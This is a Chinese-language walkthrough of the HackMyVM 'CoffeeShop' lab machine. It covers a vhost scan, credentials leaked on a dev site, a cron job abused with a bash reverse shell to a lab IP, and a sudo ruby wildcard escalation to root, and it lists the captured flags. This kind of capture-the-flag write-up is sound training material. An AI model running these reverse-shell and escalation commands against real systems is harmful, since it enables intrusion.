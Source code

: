 # CoffeeShop

2025.03.23 https://hackmyvm.eu/machines/machine.php?vm=CoffeeShop

[video]()

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

将 midnight.coffee 添加到 hosts。扫描发现 http://midnight.coffee/shop/login.php 登陆页面，但是没测试到注入或者弱密码。

主页上说网站正在建设中，那就再尝试爆破一下 vhost，发现 dev.midnight.coffee 的虚拟主机，访问 http://dev.midnight.coffee 发现用户登陆凭据 developer:developer 用这个凭据登陆 http://midnight.coffee/shop/login.php 发现 ssh 登陆凭据：

```
To login into the server use: tuna:1L0v3_TuN4_Very_Much
```

在 .bash_history 操作历史中发现这个文件/home/shopadmin/execute.sh 同时发现定时任务在执行这个脚本，发现它的内容为：

```
tuna@coffee-shop:~$ cat /home/shopadmin/execute.sh
#!/bin/bash

/bin/bash /tmp/*.sh
```

可以直接获得 root 权限：

```shell
echo '/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1"' > /tmp/reverse.sh; chmod +x /tmp/reverse.sh
```

nc 创建监听，等待 1 分钟得到 shopadmin 权限反弹的 shell，先拿到 user flag：

```
shopadmin@coffee-shop:~$ cat user.txt
DR1NK1NG-C0FF33-4T-N1GHT
```

sudo -l 发现 `(root) NOPASSWD: /usr/bin/ruby * /opt/shop.rb`

ruby 后面跟的星号，可以执行任意的脚本，直接创建一个 rb 脚本：

```
echo 'Process::Sys.setuid(0); exec "/bin/sh"' > /tmp/rb.rb; chmod +x /tmp/rb.rb
sudo -u root /usr/bin/ruby /tmp/rb.rb /opt/shop.rb
```

拿到 root flag:

```
# cat root.txt
C4FF3331N-ADD1CCCTIONNNN
```
